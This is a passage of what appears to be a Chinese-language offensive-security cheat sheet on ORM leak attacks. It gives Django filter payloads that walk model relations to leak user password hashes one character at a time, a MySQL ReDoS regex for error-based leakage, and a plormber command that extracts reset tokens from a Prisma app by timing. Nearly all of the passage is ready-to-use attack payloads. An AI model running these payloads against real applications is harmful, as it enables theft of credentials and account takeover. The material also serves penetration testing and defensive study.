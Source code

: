 我们可以看到两种类型的关系：

* 一对一关系
* 多对多关系

#### 一对一

通过创建文章的用户过滤，并且密码包含字符 `p`。

```json
{
    "created_by__user__password__contains": "p"
}
```

#### 多对多

几乎相同，但需要过滤更多内容。

* 获取用户 ID：`created_by__departments__employees__user__id`
* 对每个 ID，获取用户名：`created_by__departments__employees__user__username`
* 最后，泄露他们的密码哈希：`created_by__departments__employees__user__password`

在同一请求中使用多个过滤器：

```json
{
    "created_by__departments__employees__user__username__startswith": "p",
    "created_by__departments__employees__user__id": 1
}
```

### 基于错误的泄露 - ReDOS

如果 Django 使用 MySQL，则还可以滥用 ReDOS，在过滤条件不匹配时强制产生错误。

```json
{"created_by__user__password__regex": "^(?=^pbkdf1).*.*.*.*.*.*.*.*!!!!$"}
// => 返回某些内容

{"created_by__user__password__regex": "^(?=^pbkdf2).*.*.*.*.*.*.*.*!!!!$"}  
// => 错误 500 (正则表达式匹配超时)
```

## Prisma (Node.JS)

**工具**：

* [elttam/plormber](https://github.com/elttam/plormber) - 用于利用 ORM 泄露时间型漏洞的工具

    ```ps1
    plormber prisma-contains \
        --chars '0123456789abcdef' \
        --base-query-json '{"query": {PAYLOAD}}' \
        --leak-query-json '{"createdBy": {"resetToken": {"startsWith": "{ORM_LEAK}"}}}' \
        --contains-payload-json '{"body": {"contains": "{RANDOM_STRING}"}}' \
        --verbose-stats \
        https://some.vuln.app/articles/time-based;
    ```
